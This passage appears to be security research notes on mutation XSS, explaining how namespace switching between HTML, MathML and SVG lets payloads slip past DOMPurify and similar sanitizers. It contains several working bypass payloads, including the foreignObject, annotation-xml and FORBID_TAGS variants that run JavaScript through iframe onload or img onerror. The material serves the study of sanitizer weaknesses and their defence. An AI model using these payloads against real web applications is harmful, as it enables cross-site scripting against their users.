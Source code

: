 10. **Switch**: In the first parsing, during sanitization, our payload that executes JavaScript exists in one namespace, making it appear as safe HTML. At this stage, the payload might be within style tag text content, as an attribute value, or even as a comment, none of which are directly executable. However, during the browser's second HTML parsing, the content shifts to another namespace. As this switch happens, the payload is transformed, causing it to move out of the text content, attribute value, or comment where it was originally contained. This allows the embedded JavaScript to eventually execute.  
    1. Example:  
       **Style tag HTML to MATH switch:**  
       **Payload:** ```<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)></style></mglyph></form></mtext></math></form>```


       **Parser in Sanitizer:**   
       This weird form case mutates and creates following: ```<form><math><mtext><form><mglyph><style><img src=x>```  \<- Notice it became nested forms  
       **Parser in innerHTML:**   
       As nested forms are not allowed inner form is removed making following html: ```<form><math><mtext><mglyp><style><img src=x onerror=x> ```   
       \
       

11. The goal is to exploit the non-idempotent nature of HTML parsing to fool sanitizers. In the first parsing, the HTML appears innocent, with potentially dangerous elements hidden in ways that the sanitizer won't detect, such as within comments, attributes, or using namespaces like MathML or SVG. The sanitizer allows the document through, seeing it as safe. However, during the second parsing by the browser, the structure mutates—elements might shift between namespaces or become reinterpreted—revealing malicious content that can execute JavaScript or other harmful code, bypassing the initial sanitization.

    **Or**

    P(D)=Dsafe \<- sanitization

    P(P(D))=Dmalicious \<- insertion to body

### Masato’s numerous bypasses when removing forbidden tags:

Description: DOMPurify removes certain tags but preserves the content inside them, which can be exploited for Mutation XSS (MXSS) through namespace switching. For example, the style tag resides inside the HTML namespace within a foreignObject element. DOMPurify removes the foreignObject tag but retains its content, causing the remaining content to switch to the SVG namespace. As a result, the malicious content that was initially safe in the HTML namespace now becomes executable as SVG tags, leading to the execution of the payload. This exploit leverages the way DOMPurify handles tag removal without completely removing the content inside. 

Similar variation to Securitymb <svg></p> but use a tag which gets removed by DOMpurify inbetween them like `<svg><foreignobject><p>` <- valid dom but after sanitization it turns `<svg><p>` <- not valid dom, so <p> kicks out

So, when content is not ignored and inserted to body, mxss can happen with below payloads

Payloads:
```html
	<svg><foreignobject><p><style><p title="</style><iframe onload&#x3d;alert(1)<!--"></style>
or

<math><annotation-xml encoding="text/html"><p><style><p title="</style><iframe onload&#x3d;alert(1)<!--"></style>

//<svg><p><style><p title="</style><iframe onload=alert(1)<!--"></p></style></p></svg>

DOMPurify.sanitize('<svg><title><p><style><p title="</style><iframe onload&#x3d;alert(1)<!--"></style>',{"FORBID_TAGS":["title"]})

<svg><foreignobject><b><style><p title="</style><iframe onload&#x3d;alert(1)<!--"></style>

DOMPurify.sanitize('<svg><desc><b><style><b title="</style><iframe onload&#x3d;alert(1)<!--"></style>',{"FORBID_TAGS":["desc"]})
```